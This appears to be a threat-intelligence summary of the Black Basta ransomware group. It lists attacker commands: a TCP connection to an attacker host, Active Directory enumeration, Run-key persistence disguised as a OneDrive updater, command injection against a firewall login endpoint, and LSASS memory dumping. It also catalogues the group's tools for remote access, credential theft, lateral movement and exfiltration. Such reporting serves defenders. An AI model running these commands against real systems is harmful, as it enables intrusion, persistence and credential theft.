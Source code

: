 *   `$targetTcp = New-Object System.Net.Sockets.TcpClient($ipaddress, $port)`
*   ```
    @echo off
    set fileName=ci.txt
    powershell -c "$D=[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();…"
    ```
    
*   ```
    reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v OneDriveUpdater /t REG_SZ /d “C:\Users\Public\OneDriveUpdater.exe” /f
    ```
    
*   `curl -k -X POST -d “command=whoami” https://target-firewall:8443/remote_login`
*   `add "HKLM\SOFTWARE\TitanPlus" /v 1 /t REG_SZ /d "45B8B157B199A443;5B181B3B164A443;38B180B25B3A443"`
*   `Start-Process "C:\\Program Files (x86)\\AnyDesk\\AnyDesk.exe"`

### Used Tools

Here's a detailed list of adversary tools used by Black Basta, categorized for clarity, based on the sources:

**Remote Access and Management**
*   **AnyDesk**: Used for flexible remote access and persistence.

    *   Command to start AnyDesk: `Start-Process "C:\\Program Files (x86)\\AnyDesk\\AnyDesk.exe"`.
*   **Splashtop**: Another tool for remote access and management.
*   **ScreenConnect**: Utilized for lateral movement and remote access within compromised environments.
*   **NetSupport Manager (NetSupport RAT)**: Used for lateral movement, downloading malware, and executing commands.
*   **RealVNC**: Downloaded for persistence.

**Exploitation Tools**
*   **Metasploit**: Used as a penetration testing tool.
    *   Metasploit stagers can be delivered via HTA files.
*   **Cobalt Strike**: A penetration testing tool. Used for C2.

**Credential Access and Privilege Escalation**
*   **Mimikatz**: Used to obtain credentials.
*   **ProcDump**: Used for memory dumping.
    *   Example command: `procdump -ma lsass.exe lsass.dmp`.
*   **Veeam-Get-Creds.ps1**: A PowerShell script used to extract Veeam credentials.

**Lateral Movement and Network Discovery**
*   **PsExec**: Used for remote deployment of ransomware.
*   **SoftPerfect NetScan**: Used to enumerate remote hosts.
*   **OpenSSH**: Used for establishing secure shell (SSH) tunnels for persistent remote access.

**Data Exfiltration**
*   **Rclone**: Used for data exfiltration to cloud storage.
*   **WinSCP**: Utilized for file transfers within the compromised environment.
*   **File Transfer Services:** Used to distribute payloads.

**Malware and Bots**
*   **QakBot (Qbot)**: A loader malware.
*   **BackConnect (QBACKCONNECT)**: Malware used to maintain persistent control over compromised systems.
*   **Lumma, Formbook, Amadey, AgentTesla, Pika Bot, and Smoke Bot**: Various malware families deployed.
